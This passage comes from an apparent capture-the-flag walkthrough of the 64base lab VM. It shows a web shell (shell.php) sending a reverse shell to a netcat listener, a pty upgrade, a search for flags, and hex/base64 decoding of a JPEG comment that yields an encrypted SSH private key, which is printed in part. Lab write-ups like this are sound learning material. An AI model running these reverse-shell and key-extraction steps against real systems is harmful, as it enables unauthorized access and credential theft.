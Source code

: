 Navigating to http://192.168.145.138/Imperial-Class/BountyHunter/192.168.145.133/shell.php served me the shell on my listener:

``` 
nc -vnlp 8888
listening on [any] 8888 ...
connect to [192.168.145.133] from (UNKNOWN) [192.168.145.138] 45307
Linux 64base 3.16.0-4-586 #1 Debian 3.16.36-1+deb8u2 (2016-10-19) i686 GNU/Linux
 18:44:14 up  4:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'      
www-data@64base:/$ 
```

I looked around and saw more ASCII art files, then I ran a quick search for the flag:

``` 
www-data@64base:/$ find / -name flag* 2>/dev/null
/var/www/html/admin/S3cR37/flag5{TG9vayBJbnNpZGUhIDpECg==}
```

And the hint for the last flag is <code>Look Inside! :D</code>.

## Flag #6 - Use the force

Running file on the found file shows that it's a JPEG image:

``` 
JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, comment: "4c5330744c5331435255644a546942535530456755464a4a566b4655525342", baseline, precision 8, 960x720, frames 3
```

There is hex in the comment, I decoded it to <code>LS0tLS1CRUdJTiBSU0EgUFJJVkFURSB</code>. Then I passed this through a base64 decoder and it gave me the beginning of an SSH private key:

``` 
-----BEGIN RSA PRIVATE
```

I needed to take a better look at this, so I downloaded it to my machine:

{% img center /images/pentest/64base/flag.jpg 'flag' 'flag5' %}

And then I ran exiftool on it and the comment string was actually huge. So there must be a complete private key in there. So I went again through the hex and bas64 decoding process, to get the key:

``` 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,621A38AAD4E9FAA3657CA3888D9B356C

mDtRxIwh40RSNAs2+lNRHvS9yhM+eaxxU5yrGPCkrbQW/RgPP+RGJBz9VrTkvYw6
YcOuYeZMjs4fIPn7FZyJgxGHhSxQoxVn9kDkwnsMNDirtcoCOk9RDAG5ex9x4TMz
8IlDBQq5i9Yzj9vPfzeBDZdIz9Dw2gn2SaEgu5zel+6HGObF8Zh3MIchy8s1XrE0
kvLKI252mzWw4kbSs9+QaWyh34k8JIVzuc1QCybz5WoU5Y56G6q1Rds0bcVqLUse
MSzKk3mKaWAyLXlo7LnmqqUFKHndBE1ShPVVi4b0GyFILOOvtmvFb4+zhu6jOWYH
k2hdCHNSt+iggy9hh3jaEgUnSPZuE7NJwDYa7eSDagL17XKpkm2YiBVrUXxVMnob
wXRf5BcGKU97xdorV2Tq+h9KSlZe799trTrFGNe05vxDrij5Ut2KcQx+98K8KpWL
guJPRPKGijo96HDGc3L5YsxObVg+/fj0AvsKfrcV/lxaW+Imymc1MXiJMbmCzlDw
TAWmaqkRFDyA1HUvtvSeVqS1/HjhDw9d4KsvsjkjvyeQTssfsdGcU0hDkXwRWssd
2d3G+Njm1R5ZLNgRlNpVGjhKC4AsfXS3J0z2t3BPM9ZOBMBe9Dx8zm5xFY9zWtrv
AGpr0Bh8KQwmpjQUc1afsqaQX0UHNLXT1ZOWKjg4SA3XC9dCEyFq0SIxQjO9LGCG
4Q5ncfUhmvtqyutCll2dXPsXVDe4eoD1CkvJNDY3KPW+GkN9L+9CPy8+DNunFIwx
+T++7Qg/uPXKq4M61IQ8034UhuRWS4TqP9azX3CG9LyoiB6VbKOeDwN8ailLKZBs
fY9Q6AM1sylizH1nnxKOtZQWurxjGJBIs62telMkas9yNMk3Lu7qRH6swO9sdTBi
+j0x4uDZjJcgMXxfb0w5A64lYFsMRzFj7Xdfy19+Me8JEhQ8KNXDwQKDyULFOTsz
13VfBNxYsyL5zGXNzyqZ4I/OO7Med2j0Gz0g21iHA/06mrs2clds6SUBGEvn8NiV
```